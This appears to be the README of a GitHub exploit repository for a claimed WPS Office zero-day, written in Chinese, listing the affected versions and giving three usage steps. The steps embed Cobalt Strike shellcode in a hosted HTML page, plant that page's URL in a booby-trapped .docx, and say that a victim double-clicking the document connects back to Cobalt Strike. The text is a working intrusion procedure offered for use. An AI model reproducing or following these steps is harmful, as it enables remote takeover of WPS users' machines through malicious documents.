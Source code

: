 ﻿# WPS-0DAY-20230809
WPS Office 2023个人版＜11.1.0.15120; WPS Office 2019企业版＜11.8.2.12085 

## 使用方法

1. python replace_shellcode.py shellcode_32_raw.bin

   > 我这里使用的是CS中32位的payload, 使用replace_shellcode.py, 将1.html中的shellcode进行替换, 然后将1.html上传到你的托管地址, 例如: http://127.0.0.1/1.html

2. python exp.py poc.docx http://127.0.0.1/1.html

   > 替换poc.docx中的URL, 也就是你的托管地址

3. 双击文档即可上线CS

   
